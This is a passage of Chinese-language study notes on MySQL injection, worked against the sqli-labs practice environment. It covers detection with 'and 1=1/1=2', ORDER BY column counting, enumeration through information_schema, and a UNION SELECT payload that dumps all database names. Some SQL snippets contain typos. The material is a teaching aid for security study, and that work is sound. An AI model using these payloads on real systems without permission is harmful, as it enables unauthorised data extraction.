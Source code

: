 
### 12.1 注入时信息收集

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicy3sln0zHKTBrAacxk8bMhMYYUe2ibahjXMjicCv9p8HF2TXIvzMIib0F7SxPEfbDTFC7zFLiaSYfP0g%2F640%3Fwx_fmt%3Dpng)

-

`判断注入-
and1=1正常-
and1=2错误-
可能存在注入，其实归根结底就是看我们的输入会不会对网站造成影响，即我们的操作有效-
`

**order by 默认是升序**

*   在mysql5.0以上版本存在一个 `information_schema`的数据库，它记录着所有的数据库，表明，列名。
    
*   ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicy3sln0zHKTBrAacxk8bMhkgicBvusGPUUkPsX4uL0lI4oyozDq3tgibfstc7FHdib71jq0bhgLWg2w%2F640%3Fwx_fmt%3Dpng)
    
*   数据库中“.”代表下级
    
*   `select * information_schema.tables;`记录所有表名
    
*   `where table_name=''`筛选条件
    
*   `select * from information_schema.columns;`记录所有的列名
    
*   `where column_name=''`筛选条件
    
*   `wherw table_schema=''`筛选条件
    

**信息收集**

*   判断数据个数order by x 根据正确域错误的格式来判断个数，然后select 1,2,3,...
    
*   查询数据库 version()
    
*   数据库名字 databaase()
    
*   数据库用户 user()
    
*   操作系统 @@version\_compile\_os
    

## P13. MySQL注入

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicy3sln0zHKTBrAacxk8bMhicYZ6kDpHTLqo1Pfzoia3dcgHt0HxnicYfCFroG2B39AjC55luJpiavuZw%2F640%3Fwx_fmt%3Dpng)

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicy3sln0zHKTBrAacxk8bMhWdaR2aZibkVc0duKnXvz38whPb0EkUHNEHHat4HiaXXk2406z9p82BZQ%2F640%3Fwx_fmt%3Dpng)

*   `127.0.0.1:8888/Less-2/?id=-1 union select 1,group_concat(schema_name),3 from information_schema.schemata`爆出所有数据库
    
*   ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicy3sln0zHKTBrAacxk8bMhdwoaxmZIZO37X6cLGO8qPW0Ap2EVIibAfiaam5EsVoSBd7377eE4venw%2F640%3Fwx_fmt%3Dpng)
    